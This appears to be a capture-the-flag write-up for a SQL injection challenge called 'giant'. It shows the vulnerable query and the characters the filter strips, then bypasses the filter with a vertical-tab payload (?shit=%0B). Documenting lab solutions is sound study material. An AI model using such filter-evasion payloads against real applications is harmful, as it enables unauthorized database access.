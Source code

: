 ```yaml
---
custom_edit_url: null
sidebar_position: 14
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/cf244332-a0d2-4992-a29d-c16c73b69db7)

We are provided with the SQL query:

```sql
SELECT 1234 FROM{$_GET[shit]}prob_giant WHERE 1
```

### Filter

The code filters out the following characters:

- Space 
- New line 
- Carriage return
- Tab

In order to solve the challenge, we have to separate the `FROMprob_giant`.
Since Tabs are filtered out, we have to use the Vertical tab (`%0B`) character.

If we provide the following URI parameter:

```
?shit=%0B
```

SQL parsers typically treat vertical tabs as whitespace. Therefore, injecting a vertical tab (`%0B`) should be parsed as a space by the SQL engine.

The resultant query becomes:

```sql
SELECT 1234 FROM prob_giant WHERE 1
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/633b9e01-cf5c-4b96-ae06-ceae467e3971)

